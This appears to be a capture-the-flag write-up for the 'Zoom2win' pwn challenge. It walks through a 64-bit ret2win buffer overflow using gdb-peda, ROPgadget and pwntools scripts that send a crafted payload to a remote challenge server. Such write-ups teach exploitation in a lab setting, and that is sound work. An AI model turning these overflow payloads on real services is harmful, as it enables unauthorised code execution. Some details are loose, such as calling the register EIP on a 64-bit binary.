 ```yaml
---
title: "KQ CTF - Zoom2win [ PWN ]"
date: 2022-02-27T18:29:07-05:00
draft: false
---
```


## Introduction

Let's start this challenge by looking at its description, and see what the author has to tell us about it.

![image](https://user-images.githubusercontent.com/88755387/139706301-4ac66425-bb4a-4dd8-8350-f01fe7d00cd2.png)


Okay, so we already know that this is a basic ret2win. Let's not waste any more time and start developing the script.

## First steps

Let's see what type of architecture it has because depending on whether it is x64 or x86_64 there are several modifications to be made in the final code.

![image](https://user-images.githubusercontent.com/88755387/139694975-1f9fcd31-b10f-43ff-807a-0fb33785d6eb.png)

Once we know that it is 64-bit let's run it and see what it's all about:

![image](https://user-images.githubusercontent.com/88755387/139695501-85b03a64-1ed4-4959-afe8-97adec7284fb.png)

We can see that when entering many characters, the binary breaks, so we are going to look for its offset in order to overwrite the EIP with the address needed to read the flag.

Before we continue with the offset search let's take a look at its protections to see what we have to deal with.

![image](https://user-images.githubusercontent.com/88755387/139698443-229e41ab-6627-4b29-b3bf-3e645e7d566a.png)

In this case, we see that we only have the NX enabled. This protection marks the stack as non-executable so that even if we can overwrite the EIP to point to our shell code the shell code will never execute. 

The return-to-libc attack circumvents this protection by overwriting the return address, not with an address pointing to our injected shell code but rather to a libc function call address.

## Offset

We are going to find the offset using gdb-peda which is a well known debugger in the Pwn world.

```bash
gdb-peda zoom2win
gdb-peda$ pattern create 60
gdb-peda$ r # run te program

[ Enter the created pattern ]

gdb-peda$ pattern offset AA0A # First characters of RSP register
# AA0A found at offset: 40
```

Once we know the offset we will find the function where the flag is located.

## Flag address

To find this address we will enter the `info functions` command inside the debugger:

![image](https://user-images.githubusercontent.com/88755387/139700183-0c59bd7e-2e78-4d9f-9841-7ebbc112379f.png)

## Code development

Once we have everything ready we are going to develop the script that will launch the flag. For them we will rely on the PwnTools library which will help us to make the operation much easier.

You can download PwnTools by clicking on the following [link](https://github.com/Gallopsled/pwntools).

```python
#!/usr/bin/python3
from pwn import *

s = remote('143.198.184.186', 5003)
# elf = ELF('./zoom2win')
# s = process(elf.path)

payload = b'A'*40
payload += p64(0x401196) # address to flag() function

s.sendline(payload)
s.interactive()
```

![image](https://user-images.githubusercontent.com/88755387/139702489-7c6eb174-3c36-4030-ba5d-506f4268cc5f.png)

This code won't work because we are dealing with a 64-bit binary and we need a return address. We need to jump to this ret address before jumping to the flag function to align the stack, which has to be a multiple of 16.

To find this address we will launch the following command and filter by the word `ret`.

```
ROPgadget --binary ./zoom2win --ropchain | grep ret
```

![image](https://user-images.githubusercontent.com/88755387/139703027-f829df79-6903-4fde-a7ed-653d3a992f63.png)

Once we have it we are going to add it to our code so that it returns the content of the flag.txt.

## Final code

```python
#!/usr/bin/python3
from pwn import *

s = remote('143.198.184.186', 5003)

payload = b'A'*40
payload += p64(0x40101a) # ROPgadget --binary ./zoom2win --ropchain
payload += p64(0x401196) # address to flag() function

s.sendline(payload)
s.interactive()
```

![image](https://user-images.githubusercontent.com/88755387/139703774-42574e3b-d233-4efc-9bfe-5b083c53849e.png)

That's what we were looking for :)

We can improve this code so that it only launches the flag without entering interactive mode. It can probably be improved in a thousand different ways, but I think this is good enough for this occasion.

```python
#!/usr/bin/python3
from pwn import *

s = remote('143.198.184.186', 5003)

payload = b'A'*40
payload += p64(0x40101a) # ROPgadget --binary ./zoom2win --ropchain
payload += p64(0x401196) # address to flag() function

s.sendline(payload) 
response = s.recvall()
print(response.decode())

print(re.search("(kqctf{.*?})",response.decode()))
```

![image](https://user-images.githubusercontent.com/88755387/139704228-3c968c21-d0cc-47db-9e45-e4ba43dca2e1.png)

I hope you enjoyed it! :D